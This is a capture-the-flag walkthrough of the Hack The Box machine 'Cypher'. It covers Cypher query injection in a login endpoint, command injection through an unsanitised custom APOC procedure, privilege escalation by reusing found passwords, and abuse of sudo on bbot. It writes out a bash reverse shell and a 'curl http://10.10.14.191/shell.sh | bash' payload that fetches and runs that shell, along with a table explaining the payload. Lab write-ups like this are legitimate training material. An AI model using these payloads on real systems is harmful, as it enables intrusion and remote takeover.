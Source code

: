 ![https://app.hackthebox.com/machines/650](https://app.hackthebox.com/machines/650)

## ENUM

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

```
---- Scanning URL: http://cypher.htb/ ----
+ http://cypher.htb/about (CODE:200|SIZE:4986)                                   
+ http://cypher.htb/api (CODE:307|SIZE:0)                                        
+ http://cypher.htb/demo (CODE:307|SIZE:0)                                       
+ http://cypher.htb/index (CODE:200|SIZE:4562)                                   
+ http://cypher.htb/index.html (CODE:200|SIZE:4562)                              
+ http://cypher.htb/login (CODE:200|SIZE:3671)                                   
==> DIRECTORY: http://cypher.htb/testing/
```

No subdomain

In the `Testing` directory I download: **custom-apoc-extension-1.0-SNAPSHOT.jar**

I notice the JavaScript on the login page:

```javascript
// TODO: don't store user accounts in neo4j
function doLogin(e) {
  e.preventDefault();
  var username = $("#usernamefield").val();
  var password = $("#passwordfield").val();
  $.ajax({
    url: '/api/auth',
    type: 'POST',
    contentType: 'application/json',
    data: JSON.stringify({ username: username, password: password }),
    success: function (r) {
      window.location.replace("/demo");
    },
    error: function (r) {
      if (r.status == 401) {
        notify("Access denied");
      } else {
        notify(r.responseText);
      }
    }
  });
}

$("form").keypress(function (e) {
  if (e.keyCode == 13) {
    doLogin(e);
  }
})

$("#loginsubmit").click(doLogin);
```

---

## Initial Access

I will use a Neo4j vulnerability that allows me to extract the user database in the same way as SQLi:

I send a malicious payload:

```json
{"username":"'}) RETURN u //", "password":"x"}
```

It returns an error that reveals the exact command executed:

```
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '$username' return h.value as hash
```

I also find in the downloaded file a custom function:

```java
@Procedure(
   name = "custom.getUrlStatusCode",
   mode = Mode.READ
)
@Description("Returns the HTTP status code for the given URL as a string")
public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
   if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
      url = "https://" + url;
   }

   String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
   Process process = Runtime.getRuntime().exec(command);
   ...
   return Stream.of(new StringOutput(statusCode));
}
```

There is no sanitization of the URL, so I can perform an **RCE**.

I create the file `shell.sh`:

```bash
bash -i >& /dev/tcp/10.10.14.191/4848 0>&1
```

I start a Python web server:
`sudo python3 -m http.server 80`

Then I call the function `custom.getUrlStatusCode` to perform the RCE, downloading and executing my script. Payload sent to `/api/auth`:

```json
{
  "username": "admin' RETURN h.value AS hash UNION CALL custom.getUrlStatusCode('127.0.0.1; curl http://10.10.14.191/shell.sh | bash') YIELD statusCode AS hash RETURN hash;//",
  "password": "x"
}
```

It works… but later I discover `/api/cypher`

This endpoint accepts `?query=` parameter to execute directly:

```
GET /api/cypher?query=CALL custom.getUrlStatusCode('127.0.0.1; curl http://10.10.14.191/shell.sh | bash') HTTP/1.1
```

---

### Explanation of the `/api/auth` Payload

| Segment (inside `username`)                                    | Exact Role                                                                                                   | Escaping Details                        |
| -------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------ | --------------------------------------- |
| **`admin'`**                                                   | Closes the quote opened by the app (`u.name = '<USERNAME>'`). Everything after escapes the original `WHERE`. | Simple quote, valid inside JSON string. |
| **`RETURN h.value AS hash`**                                   | Returns the `hash` column, which the backend expects.                                                        | Plain text.                             |
| **`UNION`**                                                    | Appends a second query block.                                                                                | —                                       |
| **`CALL custom.getUrlStatusCode(...)`**                        | Calls the custom APOC function.                                                                              | —                                       |
| \*\*`('127.0.0.1; curl http://10.10.14.191/shell.sh \| bash')` | Executes reverse shell payload.                                                                              | Injected as part of the argument.       |
| **`YIELD statusCode AS hash`**                                 | Renames the column to `hash` so it matches the expected output.                                              | —                                       |
| **`RETURN hash;`**                                             | Returns the data in the right format.                                                                        | —                                       |
| **`//`**                                                       | Cypher comment – neutralizes the trailing code the backend would add.                                        | JSON-safe.                              |

---

## Own User

`/etc/passwd` reveals user **graphasm**.

In `/home/graphasm/bbot_preset.yml` I find:

```yaml
modules:
  neo4j:
    username: neo4j
    password: cU4btyib.20xtCMCXkBmerhK
```

I check services:

```
tcp   LISTEN ... 127.0.0.1:8000
tcp   LISTEN ... 172.18.0.1:7687   <-- Neo4j
```

I connect:

```
cypher-shell -a neo4j://172.18.0.1:7687 -u neo4j -p cU4btyib.20xtCMCXkBmerhK
```

I explore the DB and find:

```
MATCH (u:USER)-[r]->(h:SHA1) RETURN u.name, type(r), h.value;
| "graphasm" | "SECRET" | "9f54ca4c130be6d529a56dee59dc2b2090e43acf" |
```

The hash doesn’t crack, but trying the same creds from the config (`cU4btyib.20xtCMCXkBmerhK`) for **graphasm** SSH works.

---

## Privilege Escalation → Root

Linpeas finds:

```
/home/graphasm/.config/bbot/secrets.yml
```

Content:

```
neo4j:
  username: neo4j
  password: bbotislife
```

Also, `sudo -L` shows:

```
User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

Exploit with malicious BBOT module:

* Repo: [https://github.com/Housma/bbot-privesc](https://github.com/Housma/bbot-privesc)
* Download: `systeminfo_enum.py` + `preset.yml`

Execute:

```
sudo /usr/local/bin/bbot -t dummy.com -p preset.yml --event-types ROOT
```

The module spawns a root shell:

````
root@cypher:/tmp/.zeroz# cd /root
root@cypher:~# cat root.txt
````
